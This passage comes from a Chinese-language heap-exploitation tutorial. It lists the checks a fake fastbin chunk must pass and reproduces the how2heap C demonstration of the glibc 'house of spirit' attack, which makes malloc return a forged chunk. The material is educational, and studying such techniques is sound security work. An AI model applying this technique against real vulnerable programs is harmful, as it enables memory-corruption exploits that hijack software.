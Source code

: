 - fake chunk 的 ISMMAP 位不能为 1，因为 free 时，如果是 mmap 的 chunk，会单独处理。
- fake chunk 地址需要对齐， MALLOC_ALIGN_MASK
- fake chunk 的 size 大小需要满足对应的 fastbin 的需求，同时也得对齐。
- fake chunk 的 next chunk 的大小不能小于 `2 * SIZE_SZ`，同时也不能大于`av->system_mem` 。
- fake chunk 对应的 fastbin 链表头部不能是该 fake chunk，即不能构成 double free 的情况。

至于为什么要绕过这些检测，可以参考 free 部分的源码。

### 演示 

这里就直接以 how2heap 上的例子进行说明，如下

```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
    fprintf(stderr, "This file demonstrates the house of spirit attack.\n");

    fprintf(stderr, "Calling malloc() once so that it sets up its memory.\n");
    malloc(1);

    fprintf(stderr, "We will now overwrite a pointer to point to a fake 'fastbin' region.\n");
    unsigned long long *a;
    // This has nothing to do with fastbinsY (do not be fooled by the 10) - fake_chunks is just a piece of memory to fulfil allocations (pointed to from fastbinsY)
    unsigned long long fake_chunks[10] __attribute__ ((aligned (16)));

    fprintf(stderr, "This region (memory of length: %lu) contains two chunks. The first starts at %p and the second at %p.\n", sizeof(fake_chunks), &fake_chunks[1], &fake_chunks[7]);

    fprintf(stderr, "This chunk.size of this region has to be 16 more than the region (to accomodate the chunk data) while still falling into the fastbin category (<= 128 on x64). The PREV_INUSE (lsb) bit is ignored by free for fastbin-sized chunks, however the IS_MMAPPED (second lsb) and NON_MAIN_ARENA (third lsb) bits cause problems.\n");
    fprintf(stderr, "... note that this has to be the size of the next malloc request rounded to the internal size used by the malloc implementation. E.g. on x64, 0x30-0x38 will all be rounded to 0x40, so they would work for the malloc parameter at the end. \n");
    fake_chunks[1] = 0x40; // this is the size

    fprintf(stderr, "The chunk.size of the *next* fake region has to be sane. That is > 2*SIZE_SZ (> 16 on x64) && < av->system_mem (< 128kb by default for the main arena) to pass the nextsize integrity checks. No need for fastbin size.\n");
        // fake_chunks[9] because 0x40 / sizeof(unsigned long long) = 8
    fake_chunks[9] = 0x1234; // nextsize

    fprintf(stderr, "Now we will overwrite our pointer with the address of the fake region inside the fake first chunk, %p.\n", &fake_chunks[1]);
    fprintf(stderr, "... note that the memory address of the *region* associated with this chunk must be 16-byte aligned.\n");
    a = &fake_chunks[2];

    fprintf(stderr, "Freeing the overwritten pointer.\n");
    free(a);

    fprintf(stderr, "Now the next malloc will return the region of our fake chunk at %p, which will be %p!\n", &fake_chunks[1], &fake_chunks[2]);
    fprintf(stderr, "malloc(0x30): %p\n", malloc(0x30));
}
```
